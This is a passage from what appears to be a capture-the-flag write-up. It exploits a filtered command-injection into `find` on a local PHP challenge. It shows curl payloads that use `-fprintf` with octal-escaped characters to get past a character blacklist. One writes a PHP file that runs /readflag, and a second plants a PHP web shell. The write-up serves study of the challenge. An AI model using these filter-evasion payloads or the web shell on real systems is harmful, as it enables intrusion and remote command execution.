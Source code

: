 #### The Exploitation Command
```bash
curl 'http://localhost:8888/?cmd=/%09-maxdepth%090%09-fprintf%09/var/www/html/p.php%09%27%5C074%5C077php%5C040echo%5C040%5C140/readflag%5C040i%5C040want%5C040the%5C040flag%5C040please%5C140%5C073%5C040%5C077%5C076%27'
# curl 'http://localhost:8888/?cmd=/	-maxdepth	0	-fprintf	/var/www/html/p.php	'\074\077php\040echo\040\140/readflag\040i\040want\040the\040flag\040please\140\073\040\077\076''
```

#### Command Breakdown
- **`%09`**: URL-encoded TAB characters (argument separators for find command)
- **`/`**: Starting directory for find command
- **`-maxdepth 0`**: Limit search to current directory only
- **`-fprintf /var/www/html/p.php`**: Write formatted output to the specified file
- **`'...'`**: Single-quoted string containing our PHP payload with octal escapes

#### Why Single Quotes Are Critical
We must ensure the octal backslashes reach `find` intact, so we wrap the format argument in single quotes. Single quotes are not blacklisted and prevent the shell from consuming the backslashes before `find` sees them.

#### Octal Encoding Breakdown
In `fprintf`, octal characters are allowed. We can use `oct(ord('character'))` to find the octal value, then use `printf("\\octal")` to represent the same character:

- `\074` → `<` (opening PHP tag) - `oct(ord('<'))` = `0o74`
- `\077` → `?` (PHP tag continuation) - `oct(ord('?'))` = `0o77`
- `\040` → space character - `oct(ord(' '))` = `0o40`
- `\140` → backtick character (command execution) - `oct(ord('`'))` = `0o140`
- `\073` → `;` (statement terminator) - `oct(ord(';'))` = `0o73`
- `\076` → `>` (closing PHP tag) - `oct(ord('>'))` = `0o76`

This allows us to represent blocked characters like `<`, `>`, `;`, and backticks using their octal equivalents.

#### Why We Use Backticks
- **No `$`**: Dollar signs are blocked
- **No `[` and `]`**: Square brackets are blocked  
- **No `()`**: Parentheses are blocked
- **Simple**: Backticks run commands and show the output

#### Execution
Then access: `http://localhost:8888/p.php`

### Method 2: PHP Shell Creation

```bash
curl "http://localhost:8888/?cmd=%09/%09-fprintf%09shell.php%09%22\\74?php%09system\\50\\44_GET\\1330\\135\\51\\73%22%09-quit"
# curl "http://localhost:8888/?cmd=	/	-fprintf	shell.php	"\\74?php	system\\50\\44_GET\\1330\\135\\51\\73"	-quit"
```
